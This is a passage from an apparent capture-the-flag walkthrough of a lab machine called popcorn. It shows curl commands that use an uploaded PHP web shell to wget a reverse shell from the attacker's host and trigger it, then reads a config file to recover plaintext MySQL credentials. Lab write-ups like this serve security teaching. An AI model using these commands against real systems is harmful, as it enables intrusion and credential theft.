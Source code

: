 ![](images/9.png)

Also upload `php-reverse-shell.php` to the server and execute it to get the reverse shell.

```
curl 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php?cmd=wget%2010.10.14.5%2Fphp-reverse-shell.php'
```

```
curl 'http://10.10.10.6/torrent/upload/php-reverse-shell.php'
```

![](images/10.png)

## Privilege Escalation

### Mysql Credential

At `/var/www/torrent/config.php`, I got the clear text credential of mysql service.

```
www-data@popcorn:/var/www/torrent$ cat config.php
<snip>
  //Edit This For TORRENT HOSTER Database
  //database configuration
  $CFG->host = "localhost";
  $CFG->dbName = "torrenthoster";       //db name
  $CFG->dbUserName = "torrent";    //db username
  $CFG->dbPassword = "SuperSecret!!";   //db password
<snip>
```
